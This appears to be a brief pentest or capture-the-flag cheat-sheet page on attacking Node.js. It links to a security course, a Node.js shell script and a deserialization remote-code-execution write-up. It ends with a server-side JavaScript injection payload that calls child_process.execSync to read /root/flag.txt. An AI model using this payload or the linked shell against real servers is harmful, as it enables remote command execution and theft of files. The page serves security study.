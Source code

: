 # NodeJS
Is a [[Useful_Javascript]] framework, or web technology.


[READ](https://github.com/ajinabraham/Node.Js-Security-Course)

## Shell
[Shell](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)

## Deserialization

[deserialization](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

## Globals
```javascript
__dirname
__filename
exports
module
require()
```


## Node.js Payload
```javascript
"return process.mainModule.require('child_process').execSync('cat
/root/flag.txt');"
```